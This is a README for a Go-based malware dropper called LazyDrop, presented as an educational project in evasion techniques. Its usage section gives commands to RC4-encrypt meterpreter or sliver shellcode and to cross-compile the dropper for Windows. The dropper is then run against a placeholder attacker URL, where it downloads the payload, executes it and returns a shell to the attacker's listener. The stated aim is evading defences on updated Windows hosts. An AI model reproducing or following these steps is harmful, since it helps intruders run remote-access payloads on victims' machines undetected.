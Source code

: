 # LazyDrop

This project is educational project for learning basic evasion techiniques. It serves the purpose to peacefully run your meterpreter/sliver payload in Updated Windows host, for now?

## Usage

Generate your payload in `shellcode` format. The following will output a file called `hello.rc4` which is rc4 encrypted shellcode, which our dropper will be downloaded using http

```bash
cd LazyDrop
go run ./cmd/obfuscate <your shellcode>
```

Complie the dropper, run it with the url of `hello.rc4` after transferring it to windows host

```
GOOS=windows GOARCH=amd64 go build -o dropper.exe ./cmd/dropper/main.go
# transfer it to windows host
dropper.exe http://<ip>:<port>/hello.rc4
```

Then you will get a shell back to your listener.

## Bugs

To work on windows11 host, you need to compile the program on windows 11
